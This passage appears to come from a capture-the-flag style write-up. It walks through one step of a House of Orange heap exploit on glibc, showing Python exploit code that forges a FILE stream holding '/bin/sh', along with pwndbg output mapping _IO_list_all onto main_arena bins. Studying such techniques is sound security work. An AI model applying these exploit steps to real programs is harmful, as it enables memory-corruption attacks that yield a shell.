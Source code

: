 ## Step 2 - Configure the heap for the House of Orange

Before preparing the heap for the House of Orange, we need to clean up after ourselves.

We still need a chunk in the unsortedbin, for the unsortedbin attack part, so we issue only 2 memory allocations.

```python
# "reset" the heap, prepping for the House of Orange
chunk_05 = malloc()
chunk_06 = malloc()
```

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-08.png)

We can now focus on preparing the fake filestream.

The strategy is to coerce malloc into sorting the chunk pointed by `unsortedbin[0]` into the `0xb0` smallbin. This is because empirically we learned that at the second iteration of `_IO_list_all` traversal, the `0xb0` smallbin pointer is exactly overlapping the `_chain` pointer of the `FILE` struct.

The following output is available when the final exploit is triggered. It shows that the third filestream in `_IO_list_all` overlaps `0xb0` smallbin `bt` pointer in the main arena. That is the 22nd `mchunkptr` element of `main_arena.bins`:

```other
pwndbg> p &(struct _IO_FILE_plus*)_IO_list_all.file._chain._chain
$1 = (struct _IO_FILE_plus **) 0x7ffff7b99c30 <main_arena+272>             <--- HERE
pwndbg> p &main_arena
$2 = (struct malloc_state *) 0x7ffff7b99b20 <main_arena>
pwndbg> dt "struct malloc_state" 0x7ffff7b99b20
struct malloc_state @ 0x7ffff7b99b20
    0x00007ffff7b99b20 +0x0000 mutex                : mutex_t
    0x00007ffff7b99b24 +0x0004 flags                : int
    0x00007ffff7b99b28 +0x0008 fastbinsY            : mfastbinptr [10]
    0x00007ffff7b99b78 +0x0058 top                  : mchunkptr
    0x00007ffff7b99b80 +0x0060 last_remainder       : mchunkptr
    0x00007ffff7b99b88 +0x0068 bins                 : mchunkptr [254]
    0x00007ffff7b9a378 +0x0858 binmap               : unsigned int [4]
    0x00007ffff7b9a388 +0x0868 next                 : struct malloc_state *
    0x00007ffff7b9a390 +0x0870 next_free            : struct malloc_state *
    0x00007ffff7b9a398 +0x0878 attached_threads     : size_t
    0x00007ffff7b9a3a0 +0x0880 system_mem           : size_t
    0x00007ffff7b9a3a8 +0x0888 max_system_mem       : size_t
pwndbg> p &main_arena.bins[21]
$3 = (mchunkptr *) 0x7ffff7b99c30 <main_arena+272>                         <--- HERE
```

The above also means that `_chain` will point 8 bytes before the size of the chunk pointed by `unsortedbin[0]`. We can access that location by writing into `chunk_06`, as shown below:

```python
# Prepare a fake filestream at the end of chunk_06. This location on the heap
# is where the 2nd iteration following the filestream _chain pointer expects it
# to be
edit(chunk_06, b"\x06" * 0x50 + b"/bin/sh\0" + p8(0xb1))
```
